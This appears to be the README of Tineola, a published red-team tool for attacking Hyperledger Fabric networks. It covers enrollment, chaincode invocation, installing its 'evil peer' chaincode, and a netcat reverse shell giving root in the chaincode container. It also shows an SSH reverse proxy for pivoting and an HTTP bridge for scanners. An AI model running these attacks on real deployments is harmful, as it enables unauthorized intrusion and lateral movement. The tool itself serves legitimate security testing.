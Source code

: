 # Introducing Tineola

**Read the [Whitepaper](https://github.com/tineola/tineola/raw/master/docs/TineolaWhitepaper.pdf) and [DEF CON 26 Slides](/docs/Tineola-Slides-Defcon26.pdf).**

[Comitting insurance fraud with Tineola](https://github.com/tineola/tineola/wiki/Committing-Insurance-Fraud-with-Tineola) is a hands-on tutorial to hack the insurance app. It's a step-by-step guide to recreating the presentation demos.

![Tineola Logo](docs/tineola_logo.png)

Tineola is a red team tool for interfacing with **Hyperledger Fabric** deployments, networks, and chaincodes.
Tineola is designed to work in as many configurations as possible, and require only the bare minimum configuration to get started.
Tineola also ships with *tineolacc*, special chaincode for performing evil peer attacks.

This tool was originally released on Aug 12, 2018 at DefCon 26 by [Stark Riedesel](https://github.com/starkriedesel), [Parsia Hakimian](https://parsiya.net), Koen Buyens, and Travis Biehn.


# Installing Tineola
Tineola requires NodeJS 8.x or newer.
1. git clone https://github.com/tineola/tineola
2. cd tineola; npm install
3. cd bin; ./tineola.js

Tineola will load a `.tineola-rc` file from the current directory (if it exists) upon loading and execute any commands found within.

# Getting Started
Tineola is an interactive command-line application with commands split into modules. The following is a list of common actions and the associated Tineola commands. A complete list of commands can be obtained by using the `help` command. Command syntax can be displayed with the `-help` flag.

#### Authenticating to a CA server for the first time (aka Enrollment)

```
tineola> ca-set https://ca.example.com:7050

tineola> user-set admin

tineola> ca-enroll adminpw ExampleOrgMSP
```

After these commands, the admin user has been enrolled into Tineola's keystore. Subsequent use of Tineola with the same CA server and user will not need re-enrollment. Simply using the `user-set admin` is sufficient for loading local user keys.

#### Connecting to a peer and listing existing channels

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> peer-list-channels
```

#### Connecting to a channel and show last 20 blocks

```
tineola> user-set admin

tineola> per-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-history --last 20
```

#### Query/Invoke existing chaincode

Querying refers to calling a chaincode function and receiving a response, but without ordering the transaction. The result is a "Read-only" chaincode call.

Invoking refers to calling a chaincode function and ordering the response which allows it to be read & write.

Both actions use the `channel-query-cc` Tineola command with or without the `--invoke` flag.

Invocation requires an orderer to be set.

Note: invoking requires the endorsement policy to be met, whereas querying does not.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-query-cc ccName ccFuncName

tineola> orderer-set grpcs://orderer1.example.com:7050

tineola> channel-query-cc --invoke ccName ccFuncName
```

#### Installing the Tineola chaincode

Most commands in the "tineola" module require the "tineolacc" chaincode to be installed to the peer.

Note that this action requires a **peer administrator** certificate to be accomplished and be acceptable to the channel endorsement policy.

```
tineola> user-set peerAdmin

tineola> channel-set testChan

tineola> tineola-install
```

#### Reverse shell from the Tineola chaincode

Start a tcp listener on the Tineola machine (`10.0.0.5` in this example)
```
nc -l 31337
```

Use Tineola to launch the chaincode
```
tineola> user-set admin

tineola> channel-set testChan

tineola> tineola-shell 10.0.0.5:31337
```

The tcp listener should be given a root shell within the chaincode container. This container is a bare Ubuntu image. Use `apt update` and `apt install ...` to download packages if the peer is internet connected. If the peer is not internet connected, the `tineola-http-drop` command can be used to drop useful binaries like nmap.

#### Creating a reverse proxy with the Tineola chaincode

It may be useful to pivot through the chaincode container to access hidden network services such as CouchDB containers or other peers.
The following assumes the Tineola machine is at `10.0.0.5`, has ssh installed and running.
The Tineola chaincode uses private key authentication to connect over ssh back to the Tineola machine.
An allowed ssh private key should be present at `~/tineola-ssh-key` for tineola to use.

Note: make sure to disallow this key after using Tineola.

Tineola makes no effort to encrypt or otherwise hide this key during or after use by the chaincode.
This key will likely be present on the chaincode container indefinitely.
Keys can be generated using `ssh-keygen` and installed to `~/.ssh/authorized` keys.
The username below "user" should be changed to match the username of the tineola machine.
The target should be in the form `IP:PORT` and is `10.10.0.100:1234` in the example below.

```
tineola> user-set admin

tineola> user-set channel-set testChan

tineola> peer-set grpcs://peer1.example.com:7051

tineola> tineola-ssh-proxy 10.10.0.100:1234 10.0.0.5 user ~/tineola-ssh-key
```

#### Using Tineola with Burp or another HTTP-base application proxy/scanner

It may be useful to connect Tineola to an application scanner or proxy for ease of use when testing chaincode.
Further, many Fabric deployments will use chain data in web applications upstream, making web application scanners great for detecting web vulnerability originating from chaincode.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChans

tineola> orderer-set grpcs://orderer1.example:7050

tineola> tineola-http-proxy
```

Next, configure the HTTP scanner to use the port opened locally (default: `localhost:8888`).
The format of HTTP requests should be:

``` json
POST /ccName/funcName HTTP/1.1
HLF-Invoke: yes

["arguments","as", "json"]
```

The `HLF-Invoke` header controls whether or not to send the request for ordering.
If `HLF-Invoke` is set to "no" the query will be made read only but responses can still be collected from the chaincode.
The orderer is not needed to be configured if invoking is disabled.

## License
This software is released by Synopsys under the [MIT license](LICENSE).
